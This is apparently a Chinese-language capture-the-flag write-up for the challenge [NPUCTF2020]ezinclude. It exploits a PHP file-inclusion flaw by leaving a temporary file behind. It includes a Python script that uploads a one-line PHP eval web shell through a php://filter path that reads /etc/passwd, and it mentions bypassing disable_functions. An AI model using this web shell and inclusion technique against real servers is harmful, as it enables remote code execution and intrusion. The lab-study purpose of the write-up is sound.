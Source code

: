 # [NPUCTF2020]ezinclude

## 知识点

`php文件包含临时文件getshell`

## 解题

首先进入题目首页，提示`username/password error`，看源码提示`<!--md5($secret.$name)===$pass -->`，在`Cookie`里看到了`Hash`值，尝试`GET`传参到`pass`参数,发现中间跳转到了`/flflflflag.php`又转到了`404.html`，尝试访问`/flflflflag.php`

![](./img/[NPUCTF2020]ezinclude-1.png)

发现提示文件包含，尝试读取文件，发现可以正常读取文件，且本地有个`dir.php`可以查看`/tmp`目录下的文件(重点)

![](./img/[NPUCTF2020]ezinclude-2.png)

但是无法进一步利用，可以用到包含临时文件的方法

- [PHP临时文件机制与利用的思考 - linuxsec - 博客园 (cnblogs.com)](https://www.cnblogs.com/linuxsec/articles/11278477.html)

- [关于php文件操作的几个小trick - tr1ple - 博客园 (cnblogs.com)](https://www.cnblogs.com/tr1ple/p/11301743.html)

使用脚本利用

```python
import requests

url = "http://f285812d-1af4-4f53-8a1c-6428a8759de4.node5.buuoj.cn:81/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd"

php_content = "<?php @eval($_POST[1]);?>"
# php_content = "<?php phpinfo();?>"

file = {
    "file": php_content
}

resp = requests.post(url, files=file)

print(resp.text)
```

运行后会报`404`，但是实际上已经将马写入了,在`dir.php`看一下写入路径，然后`绕过disable_functions`找半天没发现`flag`，最后在`phpinfo`中找到`flag`

![](./img/[NPUCTF2020]ezinclude-3.png)